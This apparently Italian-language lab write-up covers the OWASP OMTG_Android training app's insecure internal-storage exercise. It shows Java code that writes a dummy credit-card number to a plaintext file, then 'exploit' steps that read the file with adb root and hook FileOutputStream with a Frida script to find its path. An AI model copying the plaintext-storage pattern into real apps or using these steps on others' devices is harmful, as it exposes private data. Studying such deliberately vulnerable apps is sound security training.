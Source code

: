 ## OMTG-DATAST-001-INTERNALSTORAGE 

> app/src/main/sg/vp/owasp_mobile/OMTG_Android/OMTG_DATAST_001_InternalStorage.java

```java
FileOutputStream fileOutputStream;

try {

	fileOutputStream = openFileOutput("test_file", 0);

} catch (FileNotFoundException e) {

	e.printStackTrace();
	fileOutputStream = null;
	
}

fileOutputStream.write("Credit Card Number is 1234 4321 5678 8765".getBytes());

fileOutputStream.close();
```

Exploit:

- `$ adb root`

- `$ adb shell cat /data/data/sg.vp.owasp_mobile.omtg_android/files/test_file`

```
Credit Card Number is 1234 4321 5678 8765
```

oppure

- inietta il seguente script tramite frida per avere il path del file creato

```javascript
Java.perform(function () {

	var fileOutputStream = Java.use("java.io.FileOutputStream");

    fileOutputStream.$init
    	.overload('java.io.File', 'boolean')
    	.implementation = function (name, append) {

    		console.log(name)

    		return this.$init(name, append)
    		
    	}

});
```

- visualizza il contenuto del file con `adb`